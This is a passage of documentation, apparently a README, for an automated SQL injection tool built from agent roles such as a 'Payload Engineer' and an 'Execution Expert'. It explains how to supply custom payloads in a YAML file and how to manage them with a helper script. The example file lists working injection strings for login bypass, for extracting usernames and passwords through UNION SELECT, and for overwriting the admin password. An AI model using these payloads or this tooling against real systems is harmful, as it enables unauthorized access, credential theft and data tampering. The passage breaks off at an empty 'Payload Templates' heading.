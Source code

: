 ## Custom Payloads Cheatsheet

You can override the SQL Payload Engineer's suggestions with your own custom payloads using the `custom_payloads.yaml` file.

### Usage

1. Edit the `custom_payloads.yaml` file in the project root directory to include your desired SQL injection payloads
2. The SQL Injection Execution Expert will use your custom payloads instead of the Payload Engineer's suggestions
3. Leave the file empty or clear it to use the Payload Engineer's suggestions again

### Important Features

- **Exact payload usage**: Payloads are used exactly as written with no modifications
- **No "123" appended**: Password fields receive the exact payload specified (no additional characters added)
- **Form field auto-detection**: Works with the automatic form field detection system
- **Multiple payload testing**: Will try each payload in sequence until one succeeds

### Example custom_payloads.yaml

```yaml
# Custom SQL Injection Payloads
payloads:
  # Authentication bypass payloads
  - "' OR '1'='1"
  - "admin' --"
  
  # Data extraction payloads
  - "' UNION SELECT username, password FROM users --"
  
  # Database manipulation
  - "'; UPDATE users SET password='hacked' WHERE username='admin'; --"
```

### Managing Custom Payloads

Use the `load_custom_payloads.py` script to manage your custom payloads:

```bash
# View currently loaded custom payloads
python load_custom_payloads.py

# Clear custom payloads (to use Payload Engineer's suggestions)
python load_custom_payloads.py --clear

# Use a different payloads file
python load_custom_payloads.py --file my_payloads.yaml
```

### Payload Templates

